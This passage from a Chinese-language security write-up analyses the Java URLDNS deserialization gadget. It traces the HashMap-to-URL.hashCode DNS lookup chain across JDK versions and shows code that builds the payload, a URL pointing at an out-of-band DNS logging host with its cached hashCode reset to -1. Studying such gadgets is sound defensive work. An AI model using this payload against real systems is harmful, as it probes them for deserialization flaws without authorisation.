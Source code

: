 但有一处值得提一下，之前说到URL要传入一个域名而不能是一个IP，IP不会触发DNS查询是在

`java.net.InetAddress#getAllByName(java.lang.String, java.net.InetAddress)`中进行了限制：

```
private static InetAddress[] getAllByName(String host, InetAddress reqAddr)
        throws UnknownHostException {
...
// if host is an IP address, we won't do further lookup
        if (Character.digit(host.charAt(0), 16) != -1
            || (host.charAt(0) == ':')) {
            byte[] addr = null;
            int numericZone = -1;
            String ifname = null;
            // see if it is IPv4 address
            addr = IPAddressUtil.textToNumericFormatV4(host);
            if (addr == null) {
            ...
```

总结一下JDK1.8下的调用路线：
1. HashMap-&gt;readObject()
1. HashMap-&gt;hash()
1. URL-&gt;hashCode()
1. URLStreamHandler-&gt;hashCode()
1. URLStreamHandler-&gt;getHostAddress()
1. InetAddress-&gt;getByName()
而在jdk1.7u80环境下调用路线会有一处不同，但是大同小异：
1. HashMap-&gt;readObject()
1. **HashMap-&gt;putForCreate()**
1. HashMap-&gt;hash()
1. URL-&gt;hashCode()
1. 之后相同
看以上调用过程可以发现：我们要执行的是URL查询的方法`URL-&gt;hashCode()`，而HashMap只是我们的一层封装。

### <a class="reference-link" name="%E5%9B%9E%E7%9C%8Bpayload%E7%94%9F%E6%88%90"></a>回看payload生成

总结以上反序列化过程，我们可以得出要成功完成反序列化过程触发DNS请求，payload需要满足以下2个条件
1. 1.HashMap对象中有一个key为URL对象的键值对
1. 2.这个URL对象的hashcode需要为-1
回头看看测试代码是怎么实现的

```
HashMap&lt;URL, String&gt; hashMap = new HashMap&lt;URL, String&gt;();
URL url = new URL("http://xxx.ceye.io");
Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
f.setAccessible(true);
//----
f.set(url, 0xdeadbeef); 
hashMap.put(url, "rmb122");
f.set(url, -1); 
//----
```
